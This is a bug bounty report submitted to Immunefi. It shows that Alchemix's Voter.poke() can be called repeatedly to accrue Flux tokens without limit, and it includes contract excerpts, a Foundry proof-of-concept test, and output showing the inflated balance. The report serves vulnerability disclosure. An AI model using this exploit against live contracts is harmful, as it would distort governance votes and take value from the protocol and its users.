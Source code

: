 
# Users can use Voter@poke to accrue Flux tokens indefinitely

Submitted on Thu May 09 2024 23:45:32 GMT-0400 (Atlantic Standard Time) by @imsrybr0 for [Boost | Alchemix](https://immunefi.com/bounty/alchemix-boost/)

Report ID: #30990

Report type: Smart Contract

Target: https://github.com/alchemix-finance/alchemix-v2-dao/blob/main/src/Voter.sol

Impacts:
- Manipulation of governance voting result deviating from voted outcome and resulting in a direct change from intended effect of original results

## Description
## Brief/Intro
Users can use Voter@poke to accrue Flux tokens indefinitely.

## Vulnerability Details
```solidity
// ...
contract Voter is IVoter {
    // ...
    function poke(uint256 _tokenId) public {
        // Previous boost will be taken into account with weights being pulled from the votes mapping
        uint256 _boost = 0;

        if (msg.sender != admin) {
            require(IVotingEscrow(veALCX).isApprovedOrOwner(msg.sender, _tokenId), "not approved or owner");
        }

        address[] memory _poolVote = poolVote[_tokenId];
        uint256 _poolCnt = _poolVote.length;
        uint256[] memory _weights = new uint256[](_poolCnt);

        for (uint256 i = 0; i < _poolCnt; i++) {
            _weights[i] = votes[_tokenId][_poolVote[i]];
        }

        _vote(_tokenId, _poolVote, _weights, _boost);  // <=== audit
    }

    function _vote(uint256 _tokenId, address[] memory _poolVote, uint256[] memory _weights, uint256 _boost) internal {
        // ...
        IFluxToken(FLUX).accrueFlux(_tokenId); // <=== audit
        // ...
    }
    // ...
}
```

```solidity
// ...
contract FluxToken is ERC20("Flux", "FLUX"), IFluxToken {
    // ...
    function accrueFlux(uint256 _tokenId) external {
        require(msg.sender == voter, "not voter");
        uint256 amount = IVotingEscrow(veALCX).claimableFlux(_tokenId);
        unclaimedFlux[_tokenId] += amount;
    }
    // ...
}
```

Since `Voter@poke` does not check if the given token id already voted in the current epoch, it can be repeatedly called by a user to accrue Flux tokens indefinitely.

## Impact Details
* Artificially boost voting power for gauges voting.
* Claim Flux ERC20 tokens to :
  * Sell them
  * Use them to ragequit for free

## References
* https://github.com/alchemix-finance/alchemix-v2-dao/blob/main/src/Voter.sol#L195-L212
* https://github.com/alchemix-finance/alchemix-v2-dao/blob/main/src/Voter.sol#L423
* https://github.com/alchemix-finance/alchemix-v2-dao/blob/main/src/FluxToken.sol#L188-L192
        
## Proof of concept
## Proof of Concept
```solidity
    function testPokeRepeatedly() public {
        uint256 tokenId1 = createVeAlcx(admin, TOKEN_1, MAXTIME, false);
        
        hevm.startPrank(admin);

        console2.log("Initial Unclaimed Flux", flux.unclaimedFlux(tokenId1));

        voter.poke(tokenId1);

        console2.log("Unclaimed Flux after one poke", flux.unclaimedFlux(tokenId1));

        for (uint256 i; i < 10; i++) {
            voter.poke(tokenId1);
        }

        console2.log("Unclaimed Flux after 10 other pokes", flux.unclaimedFlux(tokenId1));

        flux.claimFlux(tokenId1, flux.unclaimedFlux(tokenId1));

        console2.log("Flux ERC20 balance", flux.balanceOf(admin));
    }
```

## Results
```console
Ran 1 test for src/test/Voting.t.sol:VotingTest
[PASS] testPokeRepeatedly() (gas: 1457575)
Logs:
  Initial Unclaimed Flux 0
  Unclaimed Flux after one poke 994553684669529957
  Unclaimed Flux after 10 other pokes 10940090531364829527
  Flux ERC20 balance 10940090531364829527

Suite result: ok. 1 passed; 0 failed; 0 skipped; finished in 55.84s (45.19s CPU time)

Ran 1 test suite in 57.17s (55.84s CPU time): 1 tests passed, 0 failed, 0 skipped (1 total tests)
```